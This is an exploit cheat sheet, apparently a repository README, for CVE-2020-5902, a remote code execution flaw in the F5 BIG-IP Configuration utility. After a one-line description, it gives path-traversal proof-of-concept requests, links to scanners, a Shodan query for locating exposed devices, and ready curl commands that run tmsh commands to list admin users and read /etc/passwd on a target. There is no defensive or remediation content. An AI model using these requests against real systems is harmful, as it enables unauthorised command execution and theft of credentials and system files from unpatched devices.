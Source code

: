 # CVE-2020-5902

## Description

In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), 
also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages.

## POC

#### GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
#### GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse

## Tools

- https://github.com/aqhmal/CVE-2020-5902-Scanner
- https://github.com/dunderhay/CVE-2020-5902
- Shodan Query: title:"BIG-IP`&reg;`- Redirect"

## Exploit
```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```
##### Read File:

```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```
